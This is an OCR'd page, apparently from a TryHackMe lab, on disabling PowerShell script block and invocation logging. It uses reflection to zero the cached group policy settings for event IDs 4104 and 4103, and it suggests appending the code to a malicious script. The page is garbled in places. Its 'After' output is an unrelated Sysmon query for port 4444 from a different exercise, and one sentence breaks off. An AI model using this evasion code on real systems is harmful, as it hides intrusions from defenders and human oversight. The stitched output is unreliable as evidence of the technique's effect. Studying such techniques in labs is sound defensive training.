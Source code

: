 At step one, we must use reflection to obtain the type of `System.Management.Automation.Utils` and identify the GPO cache field: `cachedGroupPolicySettings`.

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
```

At step two, we can leverage the GPO variable to modify either event provider setting to `0`. `EnableScriptBlockLogging` will control **4104** events, limiting the visibility of script execution. Modification can be accomplished by writing to the object or registry directly.

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```

At step three, we can repeat the previous step with any other provider settings we want to `EnableScriptBlockInvocationLogging` will control **4103** events, limiting the visibility of cmdlet and pipeline execution.

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.

Note: The core functionality of the script is identical to the above code but slightly modified to comply with PowerShell v.5.1 updates.

To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command.

Before

```powershell
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
0
PS C:\Users\Administrator\Desktop> whoami
Tryhackme\administrator
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
3
```

![arrow pointing down](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/67a61f5e3f05f5ce34c457509712adba.PNG)

After

```powershell

PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Practice\Hunting_Metasploit.evtx -FilterXPath '*/System/EventID=3 and */EventData/Data[@Name="DestinationPort"] and */EventData/Data=4444'

   ProviderName: Microsoft-Windows-Sysmon

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
1/5/2021 2:21:32 AM              3 Information      Network connection detected:...
```

